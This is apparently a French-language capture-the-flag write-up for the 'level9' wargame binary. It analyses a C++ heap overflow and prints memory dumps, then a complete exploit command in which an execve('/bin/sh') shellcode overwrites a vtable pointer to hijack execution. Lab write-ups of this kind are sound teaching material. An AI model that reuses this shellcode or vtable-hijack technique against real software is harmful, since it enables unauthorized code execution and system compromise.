 # level9 - C++ Buffer Overflow avec Shellcode

## Analyse du Programme

**Structure**
- Programme en C++
- Allocation dynamique avec `_Znwj` (opérateur new)
- Deux allocations de 108 bytes
- Copie de l'argument avec `memcpy`
- On a un call d'une fonction via un pointeur a la fin du main :
```nasm
    main<+159>:   call   *%edx
```


**Caractéristiques Mémoire**
- Premier bloc à `0x804a008`
- Second bloc à `0x804a078`
- Offset de 108 bytes entre les blocs
- memcpy à `0x0804a00c`
- Vtable de la classe à `0x08048848`

```nasm
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
```

![alt Ressources/vtable.png](Ressources/vtable.png)


## Exploitation

**Memory view**

```nasm
                                                                        shellcode(21 bytes)
0x804a008:      0x08048848 (vtptr)      0x0804a010 (adresse de)--> 0x99580b6a      0x2f2f6852
0x804a018:      0x2f686873              0x896e6962                 0xcdc931e3      0x41414180
0x804a028:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a038:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a048:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a058:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a068:      0x41414141              0x41414141                 0x41414141      0x41414141
0x804a078:      0x0804a00c              0x00000000                 0x00000000      0x00000000
                    |
                    |
                    +---------> Contient l'adresse 0x0804a010            
```

**Construction du Payload**
- Adresse pointant vers le debut de notre shellcode
- Shellcode: 21 bytes pour `execve("/bin/sh")`
- Padding: 83 bytes
- Adresse du pointeur pointant vers le debut de notre shellcode


**Commande d'Exploitation**
```bash
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')
```

Le payload:
1. Adresse pour écrire le shellcode
2. Shellcode de 21 bytes
3. Padding de 83 bytes
4. Adresse de retour pointant vers le shellcode

Cette exploitation permet d'exécuter le shellcode en redirigeant le flux d'exécution vers notre code malveillant dans la heap.
